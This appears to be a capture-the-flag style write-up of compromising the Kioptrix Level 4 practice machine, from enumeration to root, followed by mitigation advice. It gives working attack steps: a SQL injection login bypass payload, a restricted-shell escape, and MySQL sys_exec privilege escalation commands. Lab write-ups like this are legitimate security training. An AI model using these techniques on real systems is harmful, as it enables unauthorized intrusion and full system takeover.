







**Kioptrix Level 4 – Full Technical Write-Up**

This document contains the full exploitation process, including enumeration, SQL injection, SSH access, restricted shell escape, MySQL privilege escalation, and final root access.

## 🔍 1. Initial Enumeration
Nmap Scan

Command:

nmap -sV -sC -Pn -oN kioptrix4scan.txt 192.168.209.130

Full Output:

Key findings:

Old Apache + PHP (2008-era)

OpenSSH 4.7p1 (old but not trivially exploitable)

SMB running (but not needed for this exploit)

## 📂 2. Directory Brute Forcing

Command:

gobuster dir -u http://192.168.209.130 -w /usr/share/wordlists/dirb/common.txt -x php,txt

Important Results:

/index.php     (200)
/john          (301)
/member        (302)
/logout.php    (302)

The /john directory stood out and hinted at a user account named john.

## 🧨 3. SQL Injection on Login Page

Navigating to the web interface revealed a simple username/password login form.

A classic payload was tested:

Username: john
Password: ' or 1=1#

This successfully bypassed authentication and logged into the member control panel, where valid credentials for john were displayed.

This confirmed:

The login form is vulnerable to SQLi

The backend MySQL database is poorly secured

The real credentials can be extracted

## 🔐 4. SSH Access Using Leaked Credentials

Since port 22 (SSH) was open, the stolen credentials were used.

Older SSH required compatibility flags:

ssh -oHostKeyAlgorithms=+ssh-rsa -oPubkeyAcceptedKeyTypes=+ssh-rsa john@192.168.209.130

Outcome:

Login successful

Dropped into LigGoat Restricted Shell

## 🐚 5. Escaping the Restricted LigGoat Shell

The restricted shell did not allow standard commands.

A Python‑based shell escape was attempted:

echo os.system('/bin/bash')

This successfully broke out of the restricted environment and gave access to a normal bash shell.

## 🕵️ 6. Investigating Web Application Files

Navigating to /var/www:

cd /var/www
ls

Files found:

checklogin.php
database.sql
index.php
login_success.php
member.php
john/
robert/

The key file was checklogin.php.

Important vulnerabilities observed:

MySQL credentials:

username="root"
password=""

→ root with no password

SQL query vulnerable to injection:

mysql_query("SELECT * FROM members WHERE username='$myusername' and password='$mypassword'");

Sanitization commented out:

//$mypassword = stripslashes($mypassword);
//$mypassword = mysql_real_escape_string($mypassword);

This explains why SQL injection worked perfectly.

## ⚙️ 7. Privilege Escalation via MySQL

Login to MySQL as root (no password):

mysql -h localhost -u root

Once inside MySQL, system command execution was available using the sys_exec() function.

To elevate user privileges, add john to the admin group:

select sys_exec('usermod -a -G admin john');

Return:

This indicated successful execution.

## 👑 8. Getting Root Access

Now that john is a member of the admin group:

sudo su

Enter john’s password.

Success:

root@Kioptrix4:/var/www# whoami
root

Full root access achieved.

## 🧵 9. Summary of Exploitation Chain
1. Web SQL Injection → login bypass
2. Extract credentials of user "john"
3. SSH login using valid credentials
4. Escape restricted shell → normal shell
5. MySQL root access (no password)
6. sys_exec() → execute system commands
7. Add john to admin group
8. sudo su → root shell

This method chained multiple weak configurations to escalate from a simple SQL injection to complete system compromise.

## 🔒 10. Lessons Learned / Mitigation

Do not leave MySQL root accounts without passwords

Use prepared statements to prevent SQL injection

Remove dangerous functions like sys_exec()

Harden restricted shells properly

Patch outdated Apache/PHP/SSH versions

Enforce least‑privilege for all system users

Never expose debug code or commented-out sanitization in production

🎉 End of Write-Up

This file provides the technical deep dive.
For a clean overview, refer to README.md.
